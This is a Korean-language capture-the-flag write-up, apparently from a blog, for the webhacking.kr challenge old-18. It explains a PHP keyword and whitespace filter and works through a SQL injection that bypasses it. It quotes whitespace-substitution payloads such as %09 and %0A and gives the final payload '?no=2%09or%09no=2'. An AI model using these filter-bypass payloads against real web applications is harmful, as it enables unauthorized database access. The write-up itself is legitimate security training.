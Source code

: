 ```yaml
---
title: ["[Webhacking.kr] old-18 (sqli - 10)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli]
---
```

## Intro
![문제 설명](assets/img/writeup/webhacking.kr/old-18/recon.png)

`result[id]`가 `admin`이 되어야 한다.

## Analysis

`preg_match("/ |\/|\(|\)|\||&|select|from|0x/i",$_GET['no'])`  
SQL 인젝션을 방지하기 위한 필터링이다.  
이렇게 SQL 구문이 필터링되어 있으면, 대부분 SQLi 문제라고 보면 된다.  
` `, `/`, `(`, `)`, `|`, `&`, `select`, `from`, `0x`를 필터링하며, 대소문자 구분을 하지 않는다.  

`select id from chall18 where id='guest' and no=$_GET[no]`  
타겟 쿼리는 다음과 같으므로,  
`select id from chall18 where id='guest' and no=2 or no=2`로 쿼리를 바꾸면 된다.  

하지만, ` `(%20)이 필터링 된다.  

[No Space (%20) - bypass using whitespace alternatives](https://book.hacktricks.xyz/pentesting-web/sql-injection)  
```
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

## Payload

` `  대신에 `%09`를 써보자.  

```
/?no=2%09or%09no=2
```